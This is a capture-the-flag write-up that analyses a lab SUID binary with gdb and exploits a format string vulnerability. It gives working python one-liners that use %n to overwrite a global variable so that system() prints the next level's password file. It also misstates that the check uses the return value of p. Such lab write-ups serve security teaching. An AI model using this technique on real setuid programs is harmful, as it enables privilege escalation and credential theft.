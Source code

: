 # Level 4

## First clue
- once logged in as level4 we find again an executable, `level4` owned by `level5` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) pdisas frame_dummy


```
- there are three main functions, `main`, `p` and `n`
- first we inspect main
## Main
```
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`
## Function n

```
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret  
```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls function p passing as argument the user input retrieved with fget and stored in 0x208 
- it makes some comparisons and a conditional jump (jne) that suggests that function n decide to execute further instructions based on the return of function p. Which instructions? If the comparison return true it launch a shell via a call to system
## Function p
```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.

```
- allocates 24 bytes (0x18 in hexa)
- it moves to eax regisster a value located at ebp+0x8 that could be an argument pased to the p function
- it passes that argument to the printf funciton
## Vulnerability
- `0x0804844a <+6>:	mov    0x8(%ebp),%eax` => this instruction MOVES THE CONTENT (and not the address) of the argument passed to p function (that is the user input) directly to eax for the printf function to use it as argument as well. This means that the string ritten by the user is passed to printf as it is, without proper validation .
If the proper validation had been put in place we should see instead a LEA (load effective address) of the argument passed to p.
We can exploit a format string vulnerability. How?

## Toward the Solution
- back to function n, it compares the content of the return of function p with the hexadecimal value 0x1025544, at this line `0x08048492 <+59>:  cmp    $0x1025544,%eax`. 0x1025544 is 16930116 in decimal.
If we find a way for function p to return value 16930116n we get true and the system call is triggered. 

## Finding Buffer Position: 
We first find the position of our buffer in memory by injecting format specifiers into the input string and observing the output.


`python -c 'print "aaaa" + " %x" * 15' | ./level4`

## Manipulating Return Value: 
Once we know the buffer's position, we construct an input string that manipulates the return value of function p to 16930116. This is done by padding the memory address of the variable m and using the %n format specifier.

`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`
Here, "\x10\x98\x04\x08" represents the memory address of m, and %16930112d pads the address, while %12$n writes the number of characters processed so far to the address pointed to by the 12th argument.

## Triggering System Call
With the return value manipulated, the comparison in function n will evaluate to true, triggering the system call that directly print the /level5/.pass containing the flag
